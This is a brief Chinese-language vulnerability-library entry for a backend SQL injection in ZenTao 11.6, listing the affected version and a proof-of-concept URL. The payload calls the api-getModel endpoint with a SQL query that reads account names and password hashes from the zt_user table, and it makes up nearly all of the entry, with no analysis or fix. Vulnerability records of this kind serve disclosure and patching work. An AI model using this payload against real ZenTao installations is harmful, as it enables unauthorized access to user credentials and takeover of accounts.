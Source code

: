 ```yaml
---
title: '禅道11.6后台SQL注入.assets'
date: Thu, 17 Sep 2020 01:28:13 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 影响范围

禅道 11.6

### 漏洞POC

Payload:

http://127.0.0.1/zentaopms/www/api-getModel-api-sql-sql=select+account,password+from+zt_user

![img](禅道11.6后台SQL注入.assets/20200909170607989.png)

